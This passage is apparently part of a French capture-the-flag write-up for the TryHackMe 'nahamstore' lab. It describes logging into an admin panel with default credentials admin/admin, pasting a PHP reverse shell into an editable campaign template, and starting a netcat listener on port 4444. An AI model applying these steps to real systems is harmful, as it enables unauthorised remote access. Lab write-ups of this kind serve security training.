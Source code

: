 ![page32](./Task1-32.png)

Sur le port 8000 sur le lien nahamstore.thm:8000/admin on s'identifie avec les identifiants admin/admin.    

![page33](./Task1-33.png)

On édite une campagne, on remarque que dans le code on peut exécuter du code php.    

On copie un reverse shell php dans le code. 

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 4444
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
```
